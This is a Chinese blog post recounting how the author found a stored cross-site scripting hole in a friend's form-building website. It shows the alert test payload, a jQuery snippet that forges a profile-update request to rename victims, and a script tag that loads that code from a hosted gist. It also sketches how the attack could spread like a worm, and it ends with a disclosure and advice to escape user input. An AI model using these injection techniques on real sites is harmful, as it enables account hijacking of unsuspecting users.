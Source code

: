 ```yaml
---
layout: post
title: 一次简单的 Cross-Site Scripting XSS 跨站脚本攻击

published: true

tags:
- javascript
- cross-site scripting
- xss
- web security

type: post
status: publish
---
```


[Cross-Site Scripting XSS](http://en.wikipedia.org/wiki/Cross-site_scripting) 做网页应用的都了解。之前一直知道在开发中要注意防范这个，但是没有试过。一个偶然的机会，在朋友开发的一个网站上小试了一把。

### 发现漏洞

说实话现在同事或者朋友的网站，见了输入框就想试一把 Javascript 注入。这次有一个某数据调查网站，做的十分精巧，用起来也很不错。其中有一个页面，是用户可以自己创建一个表单。表单可以有很多种元素，包括单选、 多选、 单行文本、 多行文本、 数字、 日期、 下拉框等。大多数用户输入都是安全的，但是还是发现了用户自定义单选选项，这个的 Javascript 输入没有被转义。

![在 input 中输入 Javascript]({{ site.static_url }}/images/2013/xss-javascript-code-inject.jpg)

上图可以看到在用户自定义表单的单选项目时，在项目选项中输入了一个简单的 `<script>alert(1);</script>`

![没有被转移的 Javascript]({{ site.static_url }}/images/2013/xss-unescaped-javascript.jpg)

保存后，打开这个编辑页面，都可以看到这个没有被转移的 Javascript 被执行了。

### 进行攻击

哦耶，下一步就是想如何利用这个漏洞了。如何让更多的用户访问到被恶意代码注入的网页？我测试的将表单发给用户，但是表单填写页面的 Javascript 都被转移了，即 注入 只存在在编辑页面上。幸好该产品有一个合作编辑功能，即可以把某个表单共享给好友让他一起编辑。

下面就是完善注入的代码达到攻击的效果。注入的 Javascript 通过获取被攻击用户的 Cookies，就可以伪装称被攻击者来进行操作。我采取了用户 Profile 管理的一个接口，用户在 Profile 管理时，可以通过一个 form 来修改用户名。这个 form 是一个很简单的 post 提交。我们可以通过 注入 的 Javascript 来伪造他。

    $(function(){
      var randomNum = Math.floor(Math.random() * 10000);

      $.post('/profile', {
        '_method': 'put',
        'user[nick_name]': 'I Love Feng Zhichao ' + randomNum
      });
    });

上面这段代码就是通过 jQuery 来 Post 一个请求到 /profile 上，来更新 user 的 nick_name。注意由于该产品不允许有重复的 nick_name，所以加入了一个随机数字来保证唯一性。（之前试了 n 把一直不成功才发现是用户名重复...）

由于该表单选项有字符数限制，只能将这段代码托管到别的地方，又是 [github](https://github.com/) 上： [https://gist.github.com/4681574](https://gist.github.com/4681574)。获取其 raw 文件 url 为：https://gist.github.com/raw/4681574.js。

![攻击的 Javascript]({{ site.static_url }}/images/2013/xss-attack-code.jpg)

在表单上注入 `<script src='https://gist.github.com/raw/4681574.js'>`。

### 小试牛刀

先试一个，将该表单共享给某个好友，当该好友打开其编辑页面时：

![Ajax 的 Post 请求]({{ site.static_url }}/images/2013/xss-ajax-post.jpg)

注入的 Javascript 会发送一个 Ajax Post 请求，这个请求就会将被攻击用户的用户名修改了。

![被恶意修改了的用户名]({{ site.static_url }}/images/2013/xss-modified-user-nick-name.jpg)

看上图的右上角，被攻击用户的用户名已经被注入的 Javascript 恶意修改了。

### 后记

发给几个朋友娱乐了一下并告知他们后，这个漏洞很快就被修复了，我也没有做更进一步的攻击。如果真正的想做攻击的话，注入的脚步需要更为复杂一些，而且需要像病毒一样的可自我传播。就不能仅仅是修改个用户名这么娱乐化了。比如可以通过 Javascript 再给被攻击者创建一个带有注入脚步的表单，然后获取被攻击者的好友并把这个表单共享给他们编辑。这样就会使攻击散播的更为广泛。

这个知道就行了，大家以后的代码都得谨慎，可不能为了一点儿偷懒或者自以为用户很乖就忽视 XSS。记住一点，永远不能轻易相信用户提交的数据！
